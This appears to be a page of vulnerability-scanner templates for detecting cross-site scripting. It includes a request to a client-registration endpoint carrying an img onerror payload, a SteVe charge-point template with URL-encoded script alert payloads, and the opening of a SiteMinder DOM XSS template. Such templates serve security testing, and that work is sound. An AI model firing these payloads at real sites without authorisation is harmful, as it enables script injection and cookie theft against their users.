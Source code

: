 ```
POST /auth/realms/master/clients-registrations/openid-connect HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{"\<img onerror=confirm(1337) src/>":1}

```
### Matchers

**Type - status**
- status
    1. 400

**Type - word**
- words
    1. Unrecognized field "\<img onerror=confirm(1337) src/>"

---
# SteVe - Cross-Site Scripting
## Description
- The aim of SteVe is to support the deployment and popularity of electric mobility. SteVe provides basic functions for the administration of charge points.

- severity - medium
- tags - steve,xss,oss
## Requests
- Method - GET
### URL
- {{BaseURL}}/steve/services/"%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/services/
- {{BaseURL}}/services/"%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/services/
### Matchers

**Type - word**
- part - body
- words
    1. \<script>alert(document.domain)\</script>/services/?stylesheet=1">

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# SiteMinder - DOM Cross-Site Scripting
## Description
- SiteMinder contains a cross-site scripting vulnerability in the document object model. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - dom,xss,siteminder
## Requests